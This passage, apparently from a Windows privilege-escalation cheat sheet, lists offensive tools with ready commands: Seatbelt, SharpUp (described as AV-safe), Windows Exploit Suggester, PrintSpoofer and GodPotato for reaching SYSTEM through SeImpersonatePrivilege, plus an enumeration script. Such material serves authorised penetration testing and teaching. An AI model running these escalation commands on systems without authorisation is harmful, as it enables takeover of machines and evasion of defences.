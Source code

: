 * Weak service permissions
* DLL hijacking
* Insecure registry keys

***

#### 🧠 3. Seatbelt

```powershell
Seatbelt.exe -group=system
```

**Collects** system configuration, service permissions, and security settings for escalation.

***

#### ⚙️ 4. SharpUp

```powershell
SharpUp.exe
```

C# version of PowerUp — stealthier and AV-safe.

***

#### 💀 5. Windows Exploit Suggester (NG)

```bash
python3 windows-exploit-suggester.py --update
python3 windows-exploit-suggester.py --database 2024-10-01-mssb.xls --systeminfo sysinfo.txt
```

Automated local kernel exploit recommendation based on `systeminfo`.

***

#### 🧩 6. PrintSpoofer & GodPotato

```powershell
PrintSpoofer64.exe -i -c cmd.exe
GodPotato.exe -cmd "powershell.exe"
```

Exploits **SeImpersonatePrivilege** → SYSTEM.

***

#### ⚙️ 7. Automated PrivEsc PowerShell Script

```powershell
Write-Output "[*] Enumerating..."
whoami
whoami /priv
systeminfo | findstr "OS Version"
Get-Service | where {$_.StartName -like "*LocalSystem*"}
Get-ScheduledTask | where {$_.Principal.RunLevel -eq "Highest"}
```
